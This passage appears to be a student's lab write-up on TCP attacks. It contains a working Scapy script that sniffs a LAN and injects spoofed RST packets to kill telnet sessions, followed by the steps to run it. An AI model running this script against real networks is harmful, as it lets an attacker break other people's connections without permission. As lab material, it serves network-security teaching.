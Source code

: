![](attachments/Pasted%20image%2020231001113940.png)
Without significant wait, we are able to connect to the victim host directly

# Task 2: TCP RST Attacks on `telnet` Connection
```python
from scapy.all import *

def RSTattack(pkt):
    if IP in pkt and TCP in pkt:
        ip = IP(src=pkt[IP].src, dst=pkt[IP].dst)
        tcp = TCP(sport=pkt[TCP].sport, dport=pkt[TCP].dport, flags="R", seq=pkt[TCP].seq)
        spoofedPkt = ip/tcp
        ls(spoofedPkt)
        send(spoofedPkt, verbose=0)

sniff(iface='br-c26fa13374f9', filter='tcp', prn=RSTattack)
```
## Result
When the client initiate a telnet connection, the attacker side will sniffed this tcp packet and try to construct a TCP packet with the same sender and receiver information with a reset flag
To carry out the attack
1. Run `python3 rst.py` on the `attacker` machine
2. Run `telnet 10.9.0.5 23` to initiate a telnet connection from the client machine to the victim server
You will see the connection being established and soon being terminated by the server because the attacker send a `RST` packet to the server to terminate the connection
>[!warning]
>This attack is carried out under assumption that all the machines are under the same `LAN`
## Attacker Output